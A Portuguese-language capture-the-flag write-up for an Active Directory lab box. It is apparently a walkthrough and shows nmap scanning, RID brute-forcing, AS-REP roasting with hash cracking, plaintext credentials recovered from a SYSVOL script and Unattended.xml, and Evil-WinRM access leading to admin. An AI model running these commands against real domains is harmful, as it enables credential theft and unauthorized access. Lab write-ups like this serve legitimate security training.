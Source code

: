 <img width="10%" src="images/images.png"> 

# Linked

Status: Done

Com o inicio do CTF procedemos com a inicialização de nosso Recon, como de costume, utilizamos o Rustscan para uma análise rápida da portas de serviço, juntamente com a execução do Nmap nas portas achadas, resultando:

```bash
$ sudo nmap -sV -T4 -A -p $ports $IP

Starting Nmap 7.95 ( https://nmap.org ) at 2025-03-07 00:01 EST
Nmap scan report for 172.16.9.97
Host is up (0.17s latency).

PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-03-07 05:01:42Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: linked.hc0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: linked.hc0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped
3389/tcp open  ms-wbt-server Microsoft Terminal Services
| rdp-ntlm-info: 
|   Target_Name: LINKED
|   NetBIOS_Domain_Name: LINKED
|   NetBIOS_Computer_Name: EC2AMAZ-E8IIAVC
|   DNS_Domain_Name: linked.hc
|   DNS_Computer_Name: EC2AMAZ-E8IIAVC.linked.hc
|   DNS_Tree_Name: linked.hc
|   Product_Version: 10.0.20348
|_  System_Time: 2025-03-07T05:02:00+00:00
|_ssl-date: 2025-03-07T05:02:40+00:00; +1s from scanner time.
| ssl-cert: Subject: commonName=EC2AMAZ-E8IIAVC.linked.hc
| Not valid before: 2025-02-25T17:31:11
|_Not valid after:  2025-08-27T17:31:11
5985/tcp open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-title: Not Found
|_http-server-header: Microsoft-HTTPAPI/2.0
9389/tcp open  mc-nmf        .NET Message Framing
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2022|2012|2016 (89%)
OS CPE: cpe:/o:microsoft:windows_server_2022 cpe:/o:microsoft:windows_server_2012:r2 cpe:/o:microsoft:windows_server_2016
Aggressive OS guesses: Microsoft Windows Server 2022 (89%), Microsoft Windows Server 2012 R2 (85%), Microsoft Windows Server 2016 (85%)
No exact OS matches for host (test conditions non-ideal).
Network Distance: 2 hops
Service Info: Host: EC2AMAZ-E8IIAVC; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required
| smb2-time: 
|   date: 2025-03-07T05:02:04
|_  start_date: N/A

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 72.41 seconds
```

Nesse scan extraimos informações importantes, como:

- Nome da Máquina: EC2AMAZ-E8IIAVC
- Dominio: linked.hc

Tendo serviços como AD, SMB, LDAP procedemos com tais enumerações, iniciando com SMB, porém sem resultados satisfatórios…

Com isso, iniciamos um brute-force nos RIDs, resultando na enumeração de usuários:

```bash
$ nxc smb $IP -u 'linked.hc\Guest' -p '' --rid-brute

SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  [*] Windows Server 2022 Build 20348 x64 (name:EC2AMAZ-E8IIAVC) (domain:linked.hc) (signing:True) (SMBv1:False)
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  [+] linked.hc\Guest: 
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  500: LINKED\Administrator (SidTypeUser)
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  501: LINKED\Guest (SidTypeUser)
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  502: LINKED\krbtgt (SidTypeUser)
...         .............   ...    ...............  .... ............. .............
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  1000: LINKED\EC2AMAZ-E8IIAVC$ (SidTypeUser)
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  1109: LINKED\little.dantas (SidTypeUser)
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  1110: LINKED\jhony.corleone (SidTypeUser)
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  1111: LINKED\big.head (SidTypeUser)
```

<aside>
💡

No Active Directory, um Identificador Relativo (RID) é**um número que é atribuído a objetos como usuários, grupos e computadores**. Os RIDs fazem parte de um Identificador de Segurança (SID), que identifica exclusivamente objetos dentro de um domínio. 

</aside>

Tendo usuários listamos os mesmo em uma wordlist chamada `users.txt` iniciando assim a extração das hashes que via AESrep Roasting.

[Kerberos Attacks — AS-REP Roasting](https://medium.com/r3d-buck3t/kerberos-attacks-as-rep-roasting-2549fd757b5)

```bash
$ impacket-GetNPUsers linked.hc/ -usersfile users.txt -dc-ip $IP -request -format john

$krb5asrep$little.dantas@LINKED.HC:be1ab581856d5d404b82b1bb501ac0cc$876c895249cceba2192568aa768656e3c0f5a7faa0469193f3f26c304bd554b10d49ea7b3a6f20755d8b7c84e5a04c997907817e3623ef2dfaebb0ccf281d92aefe24ccf99341fccb5f3ca50768a11f8dceb4cb5e7b17c43db46a2160f7503ee843e768bff1338a2d9d7854f53597afc06fb626078397da645a600e4c9a6172cd9dbba1dbeb918cd382b48d3a4aeed5f11ff0f64058d9b35f442b447fa0f9a4221b44ff4d2bd5c68cb66dfc04f32db6e9b4e8a97fde89bba11bda22fc7c7336a51082379539734a514fa30883c8423e273ee13fd0949e216bf76ec9f17076901f3c72f9a13ae

```

Iniciando o processo de quebra utilizando o JohnTheRipper juntamente com a wordlist `rockyou.txt` .

- **Resultando na senha:** 3st4d0sun1d0SS^^

Com essas credenciais voltamos com o reconhecimento via SMB, devido a maiores privilégios no sistema, utilizando o [NetExec](https://github.com/Pennyw0rth/NetExec).

```bash
$ nxc smb $IP -u 'linked.hc\little.dantas' -p '3st4d0sun1d0SS^^' --shares   
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  [*] Windows Server 2022 Build 20348 x64 (name:EC2AMAZ-E8IIAVC) (domain:linked.hc) (signing:True) (SMBv1:False)
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  [+] linked.hc\little.dantas:3st4d0sun1d0SS^^ 
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  [*] Enumerated shares
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  Share           Permissions     Remark
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  -----           -----------     ------
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  ADMIN$                          Remote Admin
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  C$                              Default share
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  IPC$            READ            Remote IPC
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  NETLOGON        READ            Logon server share 
SMB         172.16.13.214   445    EC2AMAZ-E8IIAVC  SYSVOL          READ            Logon server share
```

Os diretórios NETLOGON e SYSVOL, são normalmente onde são armazenados os scripts utilizados em GPOs configurações de usuários etc…

Sabendo disso, e entrando nos mesmo conseguimos a extração de um arquivo chamado `tasklist.vbs` , tendo em seu conteudo:

```visual-basic
strUsername = "LINKED.hc\jhony.corleone"
strPassword = "Th1s_1s_4_str0ng_p4ssw0rd"

strCommand = "tasklist"
Set objShell = CreateObject("WScript.Shell")
objShell.Run "runas /user:" & strUsername & " """ & strCommand & """", 1, True
```

Conseguindo acesso às crdenciais do usuário `jhony.corleone`, conseguimos assim nosso primeira acesso a máquina, via [Evil-WinRM](https://github.com/Hackplayers/evil-winrm).

![image.png](images/image.png)

![image.png](images/image%201.png)

Conseguindo assim nossa primeira FLAG…

Com isso, iniciamos nossa Post-Exploitation com a enumeração interna do servidor, para possíveis PrivEsc. Para acelerarmos o processo de enuração tentamos fazer o uploud do [winpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS).

![image.png](images/image%202.png)

Executando-o, o mesmo conseguiu uma enumeração completa juntamente com a extração da credencial do usuário `big.head` tendo permissões administrativas.

![2025-03-07_16-30.png](images/2025-03-07_16-30.png)

```powershell
Computer Name           :   EC2AMAZ-E8IIAVC
User Name               :   big.head
User Id                 :   1111
Is Enabled              :   True
User Type               :   Administrator
Comment                 :
Last Logon              :   1/1/1970 12:00:00 AM
Logons Count            :   0
Password Last Set       :   2/27/2025 5:19:00 PM
```

Isso ocorreu devido a exposição de credenciais no arquivo `"C:\Windows\Panther\Unattended.xml”` assim como mostra o código do [winpeas.sh](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS).

![Screenshot from 2025-03-08 16-32-06.png](images/Screenshot_from_2025-03-08_16-32-06.png)

Com a credencial conseguimos assim a flag do root, finalizando o CTF.

![image.png](images/image%203.png)